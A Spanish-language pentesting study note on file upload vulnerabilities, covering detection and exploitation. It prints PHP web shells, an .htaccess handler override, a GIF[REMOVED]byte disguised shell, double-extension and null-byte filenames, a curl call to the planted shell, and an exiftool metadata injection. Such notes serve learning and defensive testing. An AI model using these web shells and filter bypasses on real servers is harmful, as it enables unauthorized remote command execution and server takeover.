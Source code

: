 ---------
- Tags: #OWASP_TOP_10 #vulnerabilidad #hacking #file_upload #exploiting 
--------------
# Definición

> El **abuso de subida de archivos** es una vulnerabilidad de seguridad que ocurre cuando un atacante carga intencionadamente archivos maliciosos en un sistema o aplicación web que permite a los usuarios cargar archivos. Esto puede conducir a consecuencias graves, como la ejecución de código malicioso en el servidor, la propagación de malware, o la manipulación de datos. La falta de controles adecuados de seguridad en la subida de archivos puede permitir que los atacantes exploten esta vulnerabilidad para comprometer la integridad y la disponibilidad del sistema afectado.
> 
> Si por ejemplo el atacante consigue subir un archivo PHP y el servidor web lo almacena, podría conseguir ejecución remota de comandos y tomar el control del servidor.
> 
> Se suelen utilizar técnicas de **falsificación de tipos de archivos** para engañar a una aplicación web con el objetivo de que acepte un archivo malicioso como si fuera un archivo legítimo.

---------------
# Detección de vulnerabilidad

- **Evaluación de la interfaz de carga**: Prueba la interfaz de carga de archivos de la página web en busca de debilidades. Intenta cargar archivos con extensiones maliciosas o tamaños inusualmente grandes.
- **Exploración de parámetros de solicitud**: Utiliza herramientas de desarrollo del navegador o aplicaciones como [[Burpsuite]] para examinar las solicitudes HTTP relacionadas con la carga de archivos.
- **Prueba de carga de archivos maliciosos**: Intenta cargar archivos que contengan código malicioso, como archivos con scripts o malware incrustado.
- **Pruebas de carga de archivos múltiples**: Intenta cargar varios archivos a la vez para ver si la aplicación web maneja adecuadamente esta carga múltiple. Algunas vulnerabilidades pueden surgir cuando la aplicación no valida correctamente la carga de varios archivos simultáneamente.

-------------------
# Explotación

Pueden darse distintos tipos y vías de ataque dependiendo del tipo de sanitización que esté empleando el servidor web. Comenzamos con el caso en el que no hay ninguna restricción a la hora de subir archivos, donde podemos subir un script en **php** (suponiendo que en la aplicación web se interprete php) como el siguiente:

``` php
<?
	system($_GET['cmd']);
?>
```

Deberíamos usar el parámetro para ejecutar las instrucciones que nos plazca.

## Validación a nivel de navegador

Si la validación que se realiza al archivo subido se hace desde nuestro navegador, es decir, se utiliza un script al que tenemos acceso para controlar las extensiones de los archivos, podemos eliminar la restricción desde el propio navegador. 

En el siguiente ejemplo, se utiliza una función para validar si el archivo es correcto, por lo que podemos eliminarla directamente para burlar la validación (se tendría que eliminar desde onsubmit hasta el final):

![[Pasted image 20231008214641.png]]

## Validación a nivel de servidor

Si la validación se realiza desde el propio servidor, podemos intentar distintas vías de ataque, dependiendo del nivel de sanitización de la aplicación web. 

### Cambio de extensión del archivo

Puede ser que la aplicación web bloqueé algunos tipos de extensiones, pero podemos probar con los diferentes tipos de extensiones que pueden ser establecidas para un archivo, pudiendo resultar en un caso exitoso. Algunos ejemplos de cambio de extensiones posibles son los siguientes:

- **PHP**: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module.
- **ASP**: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml.

Los cambios de extensión los realizaremos interceptando la petición desde [[Burpsuite]].

### Crear nueva política para interpretar extensiones a nuestro gusto (.htaccess)

Frente a validaciones que se estén aplicando evitando introducir extensiones típicas, podemos utilizar el archivo **.htaccess** para decirle al servidor que interprete una extensión que nos plazca. Así podemos subir un archivo con dicha extensión para proceder con la explotación. Para ello, podemos subir un archivo llamado **.htaccess** con el siguiente contenido: 

```
AddType application/x-httpd-php .test
```

De manera que ahora se interpretarán los archivos con extensión *.test* como un script **php**.

### Restricción de tamaño de envío

Puede darse el caso en el que la aplicación web no permite la subida de archivos mayores a cierto tamaño, por lo que nos impide introducir ciertos scripts más grandes de lo esperado. Esta validación se puede realizar también desde el propio navegador, de manera que si interceptamos la petición con [[Burpsuite]] y vemos que el tamaño máximo permitido está hardcodeado, podemos simplemente aumentarlo y debería funcionar.

En el caso en el que no se esté realizando la validación por el lado del servidor, podemos tratar de reducir nuestro script lo máximo posible. Suponiendo que estamos utilizando un script como el visto al principio de la sección, podemos reducirlo bastante:

``` php
<?=`$_GET[0]`?>
```

Si no funcionase, también podríamos probar con lo siguiente:

```php
<?php system($_GET[0]);?>
```

### Restricción con el tipo de archivo (magic numbers)

Cuando una aplicación web verifica que el archivo subido tiene la extensión deseada, se podría estar realizando a través de la cabecera de la petición *Content-Type*, de manera que si no está la deseada, no se sube el archivo correctamente. Si se está realizando esta sanitización, podemos probar simplemente con cambiar la cabecera a la que espera la aplicación web. 
Por ejemplo, si la aplicación espera una imagen y hemos subido un archivo **php**, la cabecera tendrá el valor _Content-Type: application/x-php_, pero si la modificamos a la deseada _Content-Type: image/jpg_ puede ser que el servidor la acepte.  

Pasamos ahora a hablar de los **magic numbers**, que son secuencias específicas de bytes ubicadas al comienzo de un archivo que se utilizan para identificar el tipo o formato del archivo. Estas secuencias sirven como marcas distintivas que permiten a sistemas operativos y aplicaciones reconocer el tipo de archivo, independientemente de su extensión o nombre. Cada tipo de archivo tiene su propio número mágico característico. Podemos encontrar los **magic numbers** asociados a cada archivo en [Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures).

Suponiendo que la validación que se está realizando la archivo subido es a través de los **magic numbers**, si cambiamos los mismos de un archivo podría funcionar y que la aplicación acepte el archivo, además de modificar el campo de *Content-Type* mencionado anteriormente. Si tomamos como ejemplo el script mencionado anteriormente, pero queremos hacerlo pasar por un *GIF*, el script quedaría de la siguiente manera:

```php
GIF8;

<?
	system($_GET['cmd']);
?>
```

En este caso, para introducir los **magic numbers** podemos hacerlo con un editor cualquiera de texto, pero si los bytes que tenemos que introducir no son legibles, tendremos que hacer uso de alguna herramienta que trabaje con hexadecimales, como por ejemplo **xxd**. 

### Ataques de doble extensión

Podemos tratar de burlar la validación del archivo añadiendo la extensión válida antes de la extensión de ejecución, además de concatenarla con las posibles extensiones mencionadas al inicio de la página. Además, podemos intentar añadir un *null-byte*, y jugar con todas las maneras. De esta manera que los archivos podrían quedar de la siguiente manera:

- file.png.php
- file.png.Php5
- file.php%00
- file.png.pHp5
- file.php%00.png
- ...


### Evitar descarga de archivo

Una vez hayamos subido nuestro archivo, puede ser que la única manera de visualizar el mismo sea descargándolo, de manera que si es un script, no podemos ejecutarlo. Para evitar la descarga, podemos hacer una petición a través de la consola con *curl*:

```bash
curl -s -X GET "http://ruta/a/cmd.php" -G --data-urlencode "cmd=<COMANDO>"
```


### Metadatos de una archivo

Un **metadato** es una información que describe o proporciona datos sobre otros datos, son detalles que ofrecen contexto y significado a la información principal. Para visualizar los **metadatos** de una archivo, podemos utilizar [[ExifTool]].

Una vez conocido el concepto, lo podemos utilizar para inyectar código malicioso en un archivo que queramos subir, de manera que si en el servidor se procesa la foto, puede ser que se ejecute el código introducido.  Para ello podemos ejecutar el siguiente comando:

```bash
exiftool -Comment='<?php system("<COMANDO>")'
```

---------------------
# Ejemplos prácticos

- [file_upload_vulnerability_scenarios](https://github.com/moeinfatehi/file_upload_vulnerability_scenarios)